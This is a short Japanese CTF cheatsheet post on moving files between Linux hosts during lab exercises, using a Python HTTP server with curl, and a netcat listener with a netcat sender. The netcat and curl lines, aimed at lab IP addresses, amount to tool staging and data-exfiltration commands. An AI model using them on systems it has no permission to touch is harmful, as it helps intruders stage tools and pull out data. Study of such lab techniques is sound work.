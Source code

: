 ```yaml
---
layout: post
title: ファイル転送
published : true
tags: CTF Common cheatsheet linux "file trancefer"
---
```

## linux
### curl
#### 送信側(待受)
```sh
python3 -m http.server 8888
```
#### 受信側
```sh
curl 10.10.14.14:8888/src.file -o dst.file
```
### nc
#### 受信側(待受)
```sh
nc -lvnp 9999 > some-file-name.tar.gz
```
#### 送信側
```sh
nc 10.11.42.116 9999 < ff.tar.gz
```
